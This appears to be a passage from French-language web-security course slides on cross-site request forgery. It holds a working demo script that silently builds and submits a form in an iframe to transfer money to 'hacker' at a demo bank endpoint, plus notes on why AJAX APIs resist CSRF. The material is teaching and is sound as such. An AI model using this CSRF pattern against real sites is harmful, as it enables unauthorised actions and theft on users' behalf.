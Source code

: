 
**Note :** Si le `<iframe>` avait été
[vraiment caché](){:.hide-frame}, vous n'auriez rien remarqué.

**Note:** Il aurait été possible de tout faire **sans attendre de clic
  de l'utilisateur !**

<script>
var form;
document.on('DOMContentLoaded', function() {
	form = Element.prototype.append.call($('#bank').contentDocument.body, 'form#ecampus-form');
	form.method = 'POST';
	form.action = 'https://aws-security.herokuapp.com/transfer';
	form.append = Element.prototype.append.bind(form);

	data = { 'to' : 'hacker', 'amount' : '100' };
	for (var n in data) {
		var i = form.append('input');
		i.type = 'text';
		i.name = n;
		i.value = data[n];
	}

	i = form.append('input');
	i.type = 'submit';
	i.value = 'Submit';
});

$('#csrf').on('click', function(e) {
	form.submit();
	e.preventDefault();
});

$$('.hide-frame').forEach(function(t) {
	t.on('click', function(e) {
		$('#bank').classList.toggle('fade-out');
		e.preventDefault()
	});
});
</script>

</section>
<section>

## CSRF et AJAX

Les sites construits en AJAX sont classiquement mieux protégés contre
CSRF :

- Les requêtes de type `XMLHttpRequest` *cross-domain*
  - **n'envoient pas les cookies** par défaut,
  - ignorent les entêtes `Set-Cookie` ;
- Les API de type AJAX sont souvent conçues pour envoyer
  **explicitement** les données d'authentification avec chaque requête.
